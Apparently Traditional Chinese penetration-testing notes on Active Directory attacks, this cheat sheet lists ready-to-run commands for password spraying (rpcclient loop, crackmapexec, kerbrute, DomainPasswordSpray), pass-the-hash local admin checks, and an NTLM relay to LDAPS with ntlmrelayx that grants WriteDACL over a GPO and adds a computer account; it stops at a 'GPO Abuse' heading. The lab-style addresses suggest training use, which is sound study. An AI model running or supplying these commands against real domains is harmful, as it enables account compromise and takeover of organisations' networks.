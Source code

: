 # 攻擊手法
## Password Spraying
>[!WARNING]
>精神在於透過已知的單一密碼，去找到所屬的帳號。
### rpcclient
> valid_users.txt 可以用enum4linux等等工具產出
```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
### Spray-Passwords.ps1
```
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```
### crackmapexec
- Password Spraying with crackmapexec
```
crackmapexec smb 192.168.240.75 -u user.txt -p 'Nexus123!' -d corp.com --continue-on-success
```
-  Local Admin with hash
```shell-session
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
### kerbrute_windows_amd64.exe
```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
### DomainPasswordSpray
>這個東西會自動透過AD建立使用者名單，自動真測密碼，如果加入`-UserList`可以加入自製的wordlist
```powershell-session
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
## NTLM Relay Attack
>[!NOTE]
>需要搭配社教工程手法，要受害者點擊到攻擊者的server(各種方法，不一定是http)才可以記錄到ntlm v2
### 利用LDAP
>[!NOTE]
>取得Ldap可以修改GPO的權限
- Ldap ntlm relay attack
``` bash
sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.x --http-port '80,8080' -i --no-smb-server
```
``` bash
nc 127.0.0.1 11000
```
- LDAP Shell Command : provide the studentx user, WriteDACL permissions over Devops Policy
```
write_gpo_dacl studentx {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```
- Alternatively
```
add_computer stdx-gpattack Secretpass@123
write_gpo_dacl stdx-gpattack$ {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```
## GPO Abuse
>[!NOTE]